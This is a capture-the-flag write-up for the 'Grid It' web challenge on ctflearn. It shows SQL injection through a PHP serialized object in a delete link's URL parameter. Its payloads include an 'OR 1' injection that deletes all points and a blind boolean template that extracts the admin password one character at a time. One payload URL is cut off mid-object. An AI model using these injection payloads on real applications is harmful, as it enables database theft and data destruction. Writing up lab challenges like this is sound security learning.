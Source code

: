 # Grid It - Web

![Title](images/title.png)

## Initial Thoughts

* sql injection?

# Walkthrough

Tried several blind sqli on the login with no luck. 

Created a user and logged in to see this grid that we can add and remove points

![Grid](images/grid.png)

On hovering a delete link we can see this html

<a href="controller.php?action=delete_point&amp;point=O:5:&quot;point&quot;:3:{s:1:&quot;x&quot;;s:1:&quot;0&quot;;s:1:&quot;y&quot;;s:1:&quot;7&quot;;s:2:&quot;ID&quot;;s:6:&quot;736704&quot;;}">delete</a>

Looks like we might be able to do some sql injection here in the url

```
https://web.ctflearn.com/grid/controller.php?action=delete_point&point=O:5:"point":3:{s:1:"x";s:1:"300";s:1:"y";s:3:"300";s:2:"ID";s:6:"787705 OR 1";}
```

This deletes all the points. Looks like we can execute commands now

https://web.ctflearn.com/grid/controller.php?action=delete_point&point=O:5:"point":3:{s:1:"x";s:1:"300";s:1:"y";s:3:"300";s:2:"ID";s:6:"507868 AND Ascii(substring((SELECT password FROM user WHERE username='admin' LIMIT 0,1),{word_offset},1))>{comparing_char}

https://web.ctflearn.com/grid/controller.php?action=delete_point&point=O:5:%22point%22:3:{s:1:%22x%22;s:1:%221%22;s:1:%22y%22;s:1:%221%22;s:2:%22ID%22;s:6:%22787705%20OR%201%22;}